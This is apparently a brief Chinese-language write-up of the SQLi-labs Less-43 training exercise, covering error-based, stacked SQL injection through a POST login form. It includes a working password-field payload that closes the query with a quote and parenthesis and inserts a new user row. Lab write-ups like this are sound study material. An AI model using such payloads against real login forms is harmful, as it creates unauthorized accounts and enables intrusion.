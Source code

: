 # POST-Error based-string-Stacked with twist  
TAG：POST型注入、堆叠注入  
## 漏洞利用
![less43_1](images\less43_1.png)  
用less42的方法触发报错，获得参数包裹方式：单引号+小括号  
![less43_2](images\less43_2.png)  
  
使用堆叠注入添加一个用户  
Payload-password:```1');insert into users(id,username,password) values ('22','less43','hello')--+```  
![less43_3](images\less43_3.png)  
  
成功创建用户并完成了登陆  
![less43_4](images\less43_4.png)  